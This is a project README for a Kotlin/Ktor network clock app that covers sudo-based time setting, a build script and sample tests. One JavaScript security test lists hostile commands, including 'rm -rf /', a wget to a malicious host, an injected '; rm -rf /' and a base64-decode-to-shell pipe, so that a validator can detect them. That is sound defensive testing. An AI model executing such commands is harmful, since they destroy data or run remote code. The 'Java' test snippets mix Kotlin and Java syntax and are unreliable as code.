

# Network Clock (NC) Project

## Project Overview
The Network Clock (NC) project is an application for viewing and setting the date and time of the system. The application offers the following features:

- Display of current date and time with user-specified format.
- System date and time setting by interactive user.
- TCP server allowing remote users to request the current date and time in a specified format.



## Choice of Technology
For this project, Kotlin and Ktor were chosen for the server development, while the user interface uses HTML, CSS and JavaScript.

### Benefits of Kotlin and Ktor

#### Portability and Robustness
- **Portability**: Kotlin is a modern, cross-platform programming language, which enables consistent execution across different platforms, including Debian.
- **Robustness**: Thanks to its static typing and exception management system, Kotlin minimizes runtime errors and improves application reliability.

#### Thread Management and Competition
- **Integrated Thread Management**: Ktor offers integrated thread management, essential for managing concurrent network connections and running tasks in parallel.
- **Well-documented competition tools**: Kotlin and Ktor’s competition libraries and tools facilitate the development of efficient and responsive applications.

#### Library Ecosystem and Development Tools
- **Rich ecosystem**: Kotlin has a rich ecosystem of libraries and frameworks for creating graphical user interfaces and network communication.
- **Integrated Development Environments (IDE)**: IntelliJ IDEA, Eclipse and others offer powerful tools for code development, debugging and maintenance.

## Response to Project Requirements

### Graphical User Interface
The user interface is created using HTML, CSS and JavaScript, and is hosted on the Ktor server. It allows the interactive user to view the current date and time, specify the display format, and set the system time.

### Network Communication with Ktor
Kotlin’s Ktor package is used to implement the TCP server. This server listens for connections on a configurable port, receives requests from remote users, and returns the current date and time in the specified format.

### Privilege Management with ProcessBuilder and sudo
To set the system time, a separation of privileges is implemented. A bash script running with high privileges is responsible for this task. ProcessBuilder is used to run system commands with sudo, asking the user for the necessary privileges to set the time.

### Configuration and File Management
Configurations, including the TCP port number, are stored in user-writable configuration files located in the `src/main/resources/config/' directory.

## Instructions for Running the Project

### Prerequisites
- Java Development Kit (JDK) installed
- An integrated development environment (IDE) like IntelliJ IDEA or Eclipse
- A Debian system or similar Linux distribution with administrative permissions (super-user) to be able to execute commands requiring high privileges

### Steps to Run the Project

#### Clone the Project Repository
```bash
git clone https://github.com/Oceane4973/Network_clock
cd Network_clock
```

## Configuration of Scripts
The project uses bash scripts to manage privileges and execution.

### Running the `build-and-run.sh` Script
This script ensures that dependencies are installed, builds the project, and runs the application under a new system user whose only elevated privileges are date and time-change script whose path is specified in the configuration file `app.properties'.
```bash
chmod +x build-and-run.sh
./build-and-run.sh
```

#### `build-and-run.sh` script details:
1. **Checking and retrieving properties**: The script checks for the presence of the configuration file and retrieves the necessary properties such as the script path and user name.
2. **User Creation**: If the specified user does not exist, it is created with a generated password.
3. **Project Copy and Configuration**: The project directory is copied to a temporary directory, and permissions are adjusted so that the new user has access.
4. **Sudoers Configuration**: The script adds an entry in sudoers to allow the user to run the time change script and the date command without a password.
5. **Build, Test, and Run Project**: The script cleans, installs npm dependencies, builds, runs the project’s JavaScript and Kotlin tests, and launches the Ktor server as the new system user.

## Tests
The project includes several types of tests to ensure the security, robustness and performance of the application.

### Javascript Tests

#### Security Tests
Tests are performed to check the application’s resistance to command injections and other malicious attacks.

```javascript
test('should detect malicious commands', () => {
    const maliciousCommands = [
        '<script>alert("hack")</script>',
        'rm -rf /',
        'wget http://malicious.com',
        'nc --set-time "yyyy-MM-dd HH:mm:ss" "2023-07-15 12:30:45" ; rm -rf /',
        'base64 -d <<< "dGVzdA==" | sh'
    ];

    maliciousCommands.forEach((command) => {
        expect(terminal.isMaliciousCommand(command)).toBe(true);
    });
});
```

#### DOM Component Testing
Tests on the application’s DOM components, such as clock and terminal elements, are performed to ensure that they work properly and are updated correctly.
```javascript
test('should update the time and date elements', () => {
   const testDate = new Date(2023, 6, 15, 12, 30, 45); // 15 July 2023, 12:30:45
   clock.update(testDate);

   expect(clockElement.querySelector('.time').textContent).toBe('12:30:45');
   expect(clockElement.querySelector('.date').textContent).toBe('2023-07-15 SAT');
});
```

#### Integration Tests
The integration tests check that the different modules of the application work correctly together.
```javascript
test('should display help message when nc --help is executed', () => {
    const promptElement = terminal.promptElement;
    promptElement.innerText = 'nc --help';
    const event = new KeyboardEvent('keydown', { key: 'Enter' });
    promptElement.dispatchEvent(event);

    const historyContent = document.querySelector('.history').textContent;
    expect(historyContent).toContain('Usage:');
    expect(historyContent).toContain('nc --help');
    expect(historyContent).toContain('nc --set-time');
});
```

#### Performance Tests
Performance tests are also performed to ensure that critical operations are executed within acceptable timeframes.
```javascript
test('update method should be performant', () => {
    const start = performance.now();
    clock.update(new Date());
    const end = performance.now();
    expect(end - start).toBeLessThan(50); // L'opération doit prendre moins de 50ms
});
```


### Java Tests
The project includes several types of tests to ensure the security, robustness and performance of the application.

#### Unit Tests
Unit tests verify the proper functioning of individual methods and classes.
```java
package system;

import org.junit.jupiter.api.Assertions.*;
import org.junit.jupiter.api.Test;

class TimeManagerTest {

    @Test
    fun testGetCurrentTime() {
        val currentTime = TimeManager.getCurrentTime();
        assertNotNull(currentTime);
        assertFalse(currentTime.contains("Error"));
    }
}
```

#### Integration Tests
The integration tests check that the different modules of the application work correctly together.

```java
package server;

import io.ktor.network.sockets.*;
import io.mockk.*;
import org.junit.jupiter.api.BeforeEach;
import org.junit.jupiter.api.Test;
import org.junit.jupiter.api.Timeout;
import system.TimeManager;
import java.util.concurrent.TimeUnit;
import kotlin.test.assertEquals;

class TcpHandlerTest {

    private lateinit var tcpHandler: TcpHandler;
    private lateinit var socketMock: Socket;

    @BeforeEach
    fun setUp() {
        tcpHandler = new TcpHandler();
        socketMock = mockk(relaxed = true);
    }

    @Test
    @Timeout(value = 5, unit = TimeUnit.SECONDS)
    fun testRequest_HELP() {
        val request = "HELP";
        val expectedResponse = """
            Available commands:
                GET_CURRENT_TIME - Get the current time in the default format.
                GET_CURRENT_TIME_FORMAT:<format> - Get the current time in the specified format.
                HELP - Show this help message.
            """.trimIndent();

        val response = tcpHandler.processRequest(request);
        assertEquals(expectedResponse, response);
    }
}
```
#### Performance Tests
Performance tests are performed to ensure that critical operations are executed within acceptable timeframes.

```java
package system;

import org.junit.jupiter.api.Test;

class TimeManagerTest {

    @Test
    fun testConvertDateFormatPerformance() {
        val start = System.nanoTime();
        val dateStr = "2024-01-01 12:00:00";
        val fromFormat = "yyyy-MM-dd HH:mm:ss";
        val toFormat = "dd-MM-yyyy HH:mm";
        val convertedDate = TimeManager.convertDateFormat(dateStr, fromFormat, toFormat);
        val end = System.nanoTime();
        assertTrue((end - start) < 50000000);
    }
}
```
These tests ensure that every aspect of the application is well covered, ensuring optimal quality and reliability.


